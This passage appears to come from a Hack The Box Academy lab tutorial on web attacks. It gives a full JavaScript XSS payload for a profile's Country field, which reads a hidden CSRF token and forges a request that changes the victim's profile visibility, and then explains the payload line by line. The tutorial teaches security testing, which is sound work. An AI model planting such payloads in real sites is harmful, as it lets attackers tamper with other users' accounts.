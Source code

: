 You should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Forward all requests so that Ela Stienen's profile becomes public.

Let us focus on the payload we should specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings (From private to public and vice versa).

The payload we should specify can be seen below.

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Let us break things down for you.

Firstly we put the entire script in `<script>` tags, so it gets executed as valid JavaScript; otherwise, it will be rendered as text.


```javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
```

The script snippet above creates an ObjectVariable called _req_, which we will be using to generate a request. _var req = new XMLHttpRequest();_ is allowing us to get ready to send HTTP requests.


```javascript
req.onload = handleResponse;
```

In the script snippet above, we see the _onload_ event handler, which will perform an action once the page has been loaded. This action will be related to the _handleResponse_ function that we will define later.


```javascript
req.open('get','/app/change-visibility',true);
```

In the script snippet above, we pass three arguments. _get_ which is the request method, the targeted path _/app/change-visibility_ and then _true_ which will continue the execution.
